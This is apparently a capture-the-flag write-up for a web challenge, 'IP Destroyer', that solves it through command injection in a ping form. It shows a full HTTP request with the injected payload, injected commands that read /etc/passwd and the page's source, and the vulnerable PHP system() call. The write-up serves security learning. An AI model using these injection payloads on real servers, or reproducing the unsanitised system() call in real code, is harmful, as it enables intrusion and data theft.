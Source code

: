 # Web Qualifiers: IP Destroyer
## Statement
> Be careful who you ping!

Author: **@Mocanu Gabriel**

## Analysis

We arrive in a website in which we can choose a parameter which should be pinged.

Which means, if the filters are not well implemented, we should be able to proceed a command injection.

I intercepted the ping request in Burp-Suite and reproduced it by changing the ip parameter as follows:
```
POST / HTTP/1.1
Host: 141.85.224.116:8084
Content-Length: 32
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://141.85.224.116:8084
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://141.85.224.116:8084/
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

ip=;ls&destroy=Attack
```

And we get the ls result in the response
```html
<pre>a.txt
assets
images
index.php
index.php</pre>
```

The payload `;cat a.txt` shows us that a.txt corresponds to the logs of a 1.1.1.1 ping.

Still, `;cat ../../../../etc/passwd` works but we don't get any informations there.

We can still get the page source code with `;cat index.php` and we learn that if we set anything for the destroy parameter this part is launched.
```php
<?php if ($hasParam): ?>
    <p id="message">It actually just pings the target... Oops!</p>
    <pre><?php echo system('ping ' . $_POST['ip'] . ''); ?></pre>
<?php endif; ?>
```

We did not learn much more at this point and we still need to find the flag.

Finaly `ip=';cat a.txt;#&destroy=a``shows us that a.txt is empty.

We can even get the images using `;base64 images/bg01.jpg;`

We can go back to the only informations we have: cat .. etc/passwd.

We see that a line talks about a directory `/home/ctf`.

I went back to the ls research and indeed this location exists and there is a file named flag inside it! the a.txt file was a bait since the beginning.

## Exploitation

The payload `;cat ../../../home/ctf/flag` gives us the flag.

Flag: **SSS{hey_man_stop_pinging_around}**
